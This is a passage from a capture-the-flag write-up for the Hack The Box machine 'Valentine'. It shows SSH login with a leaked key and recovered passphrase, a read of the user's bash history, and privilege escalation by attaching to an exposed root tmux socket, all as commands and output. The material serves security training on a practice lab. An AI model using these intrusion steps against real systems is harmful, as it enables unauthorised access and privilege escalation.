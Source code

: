         Output: heartbleedbelievethehype 

// So since we got password lets try to take the ssh key we found in http://10.10.10.79/dev/hype_key

// and connect to ssh with user hype (becouse in site written hype_key)

    $ ssh -i valentine_key hype@10.10.10.79
    ..........
    Load key "valentine_key": bad permissions
    .........
    
// rejected connection

// BUT , changing perrmision of the key file to 400 fixed the issue

    $ chmod 400 valentine_key 
// Try again

    $ ssh -i valentine_key hype@10.10.10.79
    Enter passphrase for key 'valentine_key': 
    Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

     * Documentation:  https://help.ubuntu.com/

    New release '14.04.5 LTS' available.
    Run 'do-release-upgrade' to upgrade to it.

    Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
    hype@Valentine:~$ whoami
    hype

// We got shell and user flag !

    $ cat user.txt 
    e6710a54................


// by searching the host bash_history we can see he tried to connect socket via tmux(can type just [$ history] to get same output)

    hype@Valentine:~$ cat .bash_history
-----    
    
    exit
    exot
    exit
    ls -la
    cd /
    ls -la
    cd .devs
    ls -la
    tmux -L dev_sess 
    tmux a -t dev_sess 
    tmux --help
    tmux -S /.devs/dev_sess 
    exit
    hype@Valentine:~$ locate dev_sess
    /.devs/dev_sess
    hype@Valentine:~$ cd /.devs/
    hype@Valentine:/.devs$ ls
    dev_sess
    hype@Valentine:/.devs$ cat dev_sess 
    cat: dev_sess: No such device or address
    hype@Valentine:/.devs$ cd ..
    hype@Valentine:/$ tmux -S /.devs/dev_sess 
